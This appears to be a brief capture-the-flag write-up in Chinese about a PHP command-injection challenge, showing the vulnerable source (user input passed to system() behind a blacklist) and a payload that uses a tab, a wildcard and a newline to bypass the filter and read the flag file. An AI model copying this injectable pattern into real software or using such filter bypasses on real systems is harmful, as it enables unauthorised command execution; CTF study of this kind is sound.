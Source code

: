 # 知识点
# 思路
源码
```bash
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
?c=tac%09fla?.php%0a
```
![image.png](./images/20231017_2350493882.png)
